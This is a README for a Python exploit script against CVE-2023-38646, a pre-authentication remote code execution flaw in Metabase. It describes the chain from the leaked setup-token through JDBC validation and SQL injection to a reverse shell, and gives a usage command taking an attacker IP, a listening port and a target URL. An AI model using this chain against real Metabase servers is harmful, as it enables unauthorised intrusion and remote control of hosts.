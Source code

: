 # CVE-2023-38646

This script creates a reverse shell targeting CVE-2023-38646 (CVSS 9.8). It is developed from the article [Chaining our way to Pre-Auth RCE in Metabase (CVE-2023-38646)](https://www.assetnote.io/resources/research/chaining-our-way-to-pre-auth-rce-in-metabase-cve-2023-38646).

# How it works:
A token called "setup-token" is used to allow users to setup Metabase. However, for vulnerable versions of Metabase this token is not removed after setup.
This token is accessible to unauthenticated users under "/api/session/properties" - however the script is able to automatically retrieve the token.

As part of the setup process, an endpoint exists at /api/setup/validate which takes in a JDBC URI as a part of the POST request and then validates the connection before allowing you to complete the setup. However, this is also not disabled after inital setup and can be used with the set-up token.

Further, Assetnote found a 0day SQL injection vulnerability which allows commands be to executed on the remote host. Using this, a reverse shell can be spawned.

For more detailed information, please see the [full article](https://www.assetnote.io/resources/research/chaining-our-way-to-pre-auth-rce-in-metabase-cve-2023-38646).

# How to use this script:
`python3 CVE-2023-38646.py --lhost {KALI_IP} --lport {KALI_LISTENING_PORT} --url http://{DOMAIN_OF_LOGIN_PAGE}`

options:
* -h, --help    - show this help message and exit
* --url URL     - Domain of the login page
* --lhost LHOST  - Your attacker machine IP
* --lport LPORT - Your attacker machine listening port

# Example:
![Example Screenshot](Example%20Screenshot.png)

# Disclaimer
This script is provided for educational and awareness purposes only. It is intended to demonstrate a security vulnerability and should only be used in environments where you have explicit authorization to test for and mitigate such vulnerabilities. Unauthorised use of this script on systems without proper authorization may be illegal and could result in legal consequences. 
The author of this script are not responsible for any misuse or damage caused by the execution of this code. Use at your own risk.
By using this script, you agree that you have read and understood this disclaimer and assume full responsibility for any actions taken.

# Acknowledgements:
This script was developed from the article [Chaining our way to Pre-Auth RCE in Metabase (CVE-2023-38646)](https://www.assetnote.io/resources/research/chaining-our-way-to-pre-auth-rce-in-metabase-cve-2023-38646).
Inspiration was also taken from [Metabase Pre-Auth RCE (CVE-2023-38646) POC](https://github.com/Pyr0sec/CVE-2023-38646) by [Pyr0sec](https://github.com/Pyr0sec).
